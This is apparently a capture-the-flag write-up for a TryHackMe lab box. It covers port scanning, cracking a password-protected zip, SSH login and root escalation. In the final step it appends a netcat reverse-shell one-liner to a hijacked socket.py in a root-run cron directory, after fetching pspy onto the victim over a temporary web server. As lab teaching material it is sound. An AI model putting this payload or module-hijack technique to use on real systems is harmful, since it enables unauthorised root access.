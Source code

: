 # THM SecDSM-Dec22-MiniCTF Writeup

​		22<sup>nd</sup> December 2022
​		writeups@centraliowacybersec.com
​		[Box Link](https://tryhackme.com/jr/secdsmdecember22minictf)

 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:

This machine...

### Difficulty:

`easy`

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> secdsm.thm`

# Enumeration

Start with basic and advanced NMAP scans on the box.

`nmap -v secdsm.thm`
![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)

`nmap -p 22,80 -A -sC -sV -v secdsm.thm`
![image],(https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machiine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)
![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.

`zip2john temp.zip > hash`
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!

`unzip temp.zip`
`<password>`

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.

`ssh kinder@secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`

From here we can host a temp pthon webservber to move it onto the victim machine.

`sudo python3 -m http.server 80`

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.

`wget http://192.168.59.131/pspy64s && chmod 777 pspy64s`

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?

`whatis updog.py`

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service. This is all pretty simple but on it's own not exploitable. What is exploitable is the writeable directory the file lives in.

Python imports modules in a specific order and iut is possible to exploit this given the right parameters.
1.    The current directory (same directory as script doing the importing).
1.    The library of standard modules.
1.    The paths defined in sys.path.*

[Source](https://www.webucator.com/article/how-python-finds-imported-modules)

Let's pull in the real sockets.py file into the directory and modify it to exploit this configuration vulnerability on the machine.

`find / -name socket.py 2>/dev/null`
`cp /usr/lib/python3.10/socket.py .`


![image](https://user-images.githubusercontent.com/43767555/203451434-4f756d72-8933-4466-a17f-fe6a1e57ae2d.png)

With the file succesfully pulled into the directory we can now build a reverse shell back to the attackbox.

[Revshells.com](https://revshells.com)

![image](https://user-images.githubusercontent.com/43767555/203451481-0b4b7008-3976-4d6e-97f6-9d338cc80362.png)

I checked for nc before building the shell.

`which nc`

![image](https://user-images.githubusercontent.com/43767555/203454997-2c92d5d6-9325-4a98-9e23-89e9b2c34734.png)


`echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.59.131 80 >/tmp/f")' >> socket.py && tail -n 10 socket.py`

![image](https://user-images.githubusercontent.com/43767555/203455333-7cacc5bd-72e6-4a22-ad10-70cb465abe84.png)

This pops a root shell on the attackbox where the root flag can be grabbed to finish!

![image](https://user-images.githubusercontent.com/43767555/203455377-9af29b7d-8ad6-4988-97ce-8573f8344412.png)
